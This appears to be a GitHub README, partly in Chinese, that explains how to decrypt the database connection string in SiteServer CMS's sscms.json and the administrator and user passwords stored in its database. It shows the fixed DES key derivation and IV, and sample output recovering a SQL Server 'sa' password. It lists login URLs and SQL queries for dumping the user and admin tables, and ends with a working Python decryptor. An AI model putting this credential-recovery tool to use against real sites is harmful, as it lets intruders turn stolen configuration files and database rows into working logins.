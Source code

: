 # sscms（siteserver cms） database decrypt

简介：SSCMS 基于 .NET Core，能够以最低的成本、最少的人力投入在最短的时间内架设一个功能齐全、性能优异、规模庞大并易于维护的网站平台。

项目地址：https://github.com/siteserver/cms



## Des Decrypt

`https://github.com/siteserver/cms/blob/master/src/SSCMS/Utils/DesEncryptor.cs`

```python

 python3 sscms_decrypt.py
 
[+] Current Encrypt Data= 0NofLD4zWcY/jm+42NYzug==
[+] secretKey= f9c01027
[+] iv_hex= 1234567890abcdef
[+] 数据库类型：SqlServer

[+] Current Encrypt Data= B0SvIg6ExtjhllXf3vb9UwjmLKSRMlqQ1LIs6a8G0G/M1cWZ2ABJ6lvZOMlvKR+vM7/QKGc8pYo8t6sumMerqA==
[+] secretKey= f9c01027
[+] iv_hex= 1234567890abcdef
[+] 数据库配置信息：Server=192.168.77.200;Uid=sa;Pwd=p@ssw0rd2020;Database=sscms;
```

## sscms.json

```json

{
  "IsNightlyUpdate": false,
  "IsProtectData": true,
  "AdminDirectory": "siteserver",
  "HomeDirectory": "home",
  "SecurityKey": "f9c01027278a387b",
  "Database": {
    "Type": "0NofLD4zWcY0slash0jm0add042NYzug0equals00equals00secret0",
    "ConnectionString": "B0SvIg6ExtjhllXf3vb9UwjmLKSRMlqQ1LIs6a8G0G0slash0M1cWZ2ABJ6lvZOMlvKR0add0vM70slash0QKGc8pYo8t6sumMerqA0equals00equals00secret0"
  },
  "Redis": {
    "ConnectionString": ""
  }
}
```

#### 系统安装后，SS CMS 系统将把数据库连接信息存放于 `sscms.json` 配置文件中：

- IsProtectData：数据库连接是否加密存储
- SecurityKey：加密秘钥，系统随机生成
- Database:Type：数据库类型
- Database:ConnectionString：数据库连接字符串

### 数据库用户密码表解密

#### 前台用户表：

前台登录地址: 
http://x.x.x.x/home/pages/login.html
![image](https://user-images.githubusercontent.com/16593068/144416418-bed8f5fc-d294-4b82-8989-4ad45b9dae4b.png)

`SELECT * FROM jxxt.dbo.siteserver_User`

#### 后台管理员表

后台登录地址：
http://x.x.x.x/SiteServer/pageLogin.cshtml

![image](https://user-images.githubusercontent.com/16593068/144416281-a033c123-9e37-4dfb-aa66-f3c76a59a9d4.png)


`SELECT * FROM jxxt.dbo.siteserver_Administrator`

![image](https://user-images.githubusercontent.com/16593068/144417044-934e5a90-72b4-4664-986a-ead939821062.png)


对应的解密代码：

https://github1s.com/siteserver/cms/blob/siteserver-v6.13.0/SiteServer.CMS/Provider/AdministratorDao.cs#L1126


```c#
        private string DecodePassword(string password, EPasswordFormat passwordFormat, string passwordSalt)
        {
            var retVal = string.Empty;
            if (passwordFormat == EPasswordFormat.Clear)
            {
                retVal = password;
            }
            else if (passwordFormat == EPasswordFormat.Hashed)
            {
                throw new Exception("can not decode hashed password");
            }
            else if (passwordFormat == EPasswordFormat.Encrypted)
            {
                var encryptor = new DesEncryptor
                {
                    InputString = password,
                    DecryptKey = passwordSalt
                };
                encryptor.DesDecrypt();

                retVal = encryptor.OutString;
            }
            return retVal;
        }
```

通过passwordSalt初始化DecryptKey值，进行DES解密，调用DesEncryptor.DesDecrypt()方法


```c#
		public void DesDecrypt()
		{
		    byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
		    try
			{
				var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8));
				var des = new DESCryptoServiceProvider();
				var inputByteArray = Convert.FromBase64String(_inputString);
				var ms = new MemoryStream();
				var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
				cs.Write(inputByteArray, 0, inputByteArray.Length);
				cs.FlushFinalBlock();
				Encoding encoding = new UTF8Encoding();
				_outString = encoding.GetString(ms.ToArray());
			}
			catch (Exception error)
			{
				_noteMessage = error.Message;
			}
		}
```

对用python3代码：

```python

import base64,pyDes

def sscms_decrypt(encodeData):
    var1 = encodeData.replace("0secret0", "").replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0quote0", "'").replace("0slash0", "/")
    var2 = base64.b64decode(var1)
    print("[+] Current Encrypt Data= " + var1)
    secretKey = 'Y2MlWp4hGY2Wcb9tzIiR2w=='[0:8]
    print("[+] secretKey= " + secretKey)
    iv_hex = "1234567890abcdef"
    iv = bytes.fromhex(iv_hex)
    print("[+] iv_hex= " + iv_hex)
    k = pyDes.des(secretKey, pyDes.CBC, iv, pad=None, padmode=pyDes.PAD_PKCS5)
    return k.decrypt(var2) + b"\n"

Data = "VpGCBufzbT+j/zYDjDmtWw=="

print(sscms_decrypt(Data).decode("utf-8"))
```

